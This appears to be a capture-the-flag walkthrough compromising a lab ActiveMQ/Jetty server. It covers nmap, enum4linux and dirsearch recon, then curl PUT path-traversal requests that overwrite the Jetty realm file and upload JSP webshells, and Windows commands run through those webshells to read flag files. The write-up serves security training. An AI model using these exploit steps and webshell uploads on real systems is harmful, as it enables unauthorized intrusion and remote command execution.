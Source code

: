 * [Recon-Enumeration](#recon-enumeration)
* [Exploit](#exploit)
* [Privesc](#privesc)

## Recon-Enumeration  
nmap -A -p- 10.2.0.15  
![alt text](./img/active01.PNG?raw=true)  
![alt text](./img/active02.PNG?raw=true)  
![alt text](./img/active03.PNG?raw=true)  

enum4linux 10.2.0.15  
![alt text](./img/active04.PNG?raw=true)  
![alt text](./img/active05.PNG?raw=true)  

dirsearch -u http://10.2.0.15:8161/ -w ~/wordlists/big.txt -t 100 -e php,html,aspx,txt,xml -f --full-url  
![alt text](./img/active09.PNG?raw=true)  
![alt text](./img/active06.PNG?raw=true)   

Let’s start Burpsuite and try to login with admin:admin  
![alt text](./img/active07.PNG?raw=true)  

The highlight section looks encoded. Let’s discover with [CyberChef](https://gchq.github.io/CyberChef/)  
![alt text](./img/active08.PNG?raw=true)  

So the credentials are send encoded with base64

In nmap we can see the versions of the applications  
![alt text](./img/active10.PNG?raw=true)  

## Exploit  
Let’s try to find exploit to them…  
![alt text](./img/active11.PNG?raw=true)  
![alt text](./img/active12.PNG?raw=true)  

We don’t find to this version of Jetty, however to ActiveMQ we have some. Let’s read the 40857.txt

searchsploit -x windows/remote/40857.txt  
![alt text](./img/active13.PNG?raw=true)  
![alt text](./img/active14.PNG?raw=true)  
  
We can just follow the steps:  
Run the command: echo admin: admin, admin > jetty-realm.properties  
Run the command: touch cmd.jsp  
Put he above lines in the cmd.jsp file:  
PS: Is the same on the exploit description  
![alt text](./img/active26.PNG?raw=true)  

Run the commands:  
curl -v -X PUT --data "@jetty-realm.properties" http://10.2.0.15:8161/fileserver/..\\..\\conf\\jetty-realm.properties  
Restart the target machine  
curl -u 'admin:admin' -v -X PUT --data "@cmd.jsp" http://10.2.0.15:8161/fileserver/..\\admin\\cmd.jsp  
Access the page http://10.2.0.15:8161/admin/cmd.jsp  
Use the credentials admin:admin  
Ready, now we have an webshell  
![alt text](./img/active15.PNG?raw=true)  

## Privesc

The dir command doesn’t work. But running whoami we discover we are system:  
![alt text](./img/active16.PNG?raw=true)  

We already have system, however the dir command doesn’t work. So let’s try to get a shell or more information…  
![alt text](./img/active17.PNG?raw=true)  
![alt text](./img/active18.PNG?raw=true)  

Ok, i had some problems to run some commands. So i uploaded another .jsp webshell with the above code:  
PS: On kali is the same code of the file /usr/share/webshells/jsp/cmdjsp.jsp  
![alt text](./img/active25.PNG?raw=true)  

Run the command:  
curl -u 'admin:admin' -v -X PUT --data "@cmdjsp.jsp" http://10.2.0.15:8161/fileserver/..\\admin\\cmdjsp.jsp  

Now we have 2 webshells that complement each other  
![alt text](./img/active20.PNG?raw=true)  

cd c:\ & dir *.txt /s /p > c:\windows\temp\aaa.txt & type c:\windows\temp\aaa.txt  
![alt text](./img/active21.PNG?raw=true)  
  
![alt text](./img/active22.PNG?raw=true)  
  
type c:\Users\public\user.txt  
![alt text](./img/active23.PNG?raw=true)  

type c:\Users\Administrador.WIN-439TMFLJJ23\root.txt.txt  
![alt text](./img/active24.PNG?raw=true)  
